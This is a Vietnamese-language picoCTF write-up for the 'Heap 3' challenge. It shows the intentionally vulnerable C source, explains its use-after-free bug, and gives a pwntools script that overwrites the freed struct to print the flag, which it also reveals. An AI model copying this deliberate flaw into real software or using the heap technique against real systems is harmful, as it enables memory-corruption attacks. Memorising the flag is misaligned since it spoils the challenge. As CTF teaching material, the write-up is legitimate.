 # Heap 3
Tương tự như các challenge `Heap` trước đó, challenge này cho ta 2 file. Một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` và ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x->flag, x->flag);
    printf("+-------------+-----------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Chương trình vẫn hoạt động theo các lựa chọn như các challenge `heap` trước đó, nhưng lần này có gì đó khác khác...

Chạy thử local thì ta có giao diện sau:

![image](https://github.com/user-attachments/assets/7dafc717-cae7-4934-8485-be8591873c1f)

Nhìn sơ qua code thì ta thấy một dòng gây ra lỗi trong hàm `free_memory()`:

``` c
void free_memory() {
    free(x);
}
```

Đây là dấu hiệu của chương trình mắc phải lỗi bảo mật kiểu [Use - After - Free](https://www.techtimes.vn/lo-hong-su-dung-sau-khi-mien-phi-uaf-la-gi/), sau khi thực hiện lệnh `free(x)` thì con trỏ `x` vẫn còn.

Giờ ta nhìn vào hàm `check_win()`, ta thấy rằng flag sẽ được in khi giá trị của trường `flag` trong struct mà `x` là con trỏ trỏ tới bằng với chuỗi `pico`.

``` c
void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}
```

Ta sẽ khai thác lỗ hổng `Use - After - Free` để làm điều đó.

Đầu tiên chọn `5. Free x`.
Sau đó chọn `2. Allocate object`. Size là 35 (trường flag nằm ở 5 btyes cuối trong struct `object`). Ta nhập 30 kí tự 'a' và chuỗi `pico`.

Ta có file exploit:

``` python 
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 52463)
write = b'2'
Size = b'35'
flag = b'4'
free = b'5'
payload = 30 * b'a'
payload += b'pico' 
p.sendline(free) # 5. Free x
p.sendline(write) # 2. Allocate object
p.sendline(Size) # Size = 35
p.sendline(payload) 
p.sendline(flag)
p.interactive()
```

Và ta có flag:
``` 
picoCTF{now_thats_free_real_estate_f8fb9f96}
```
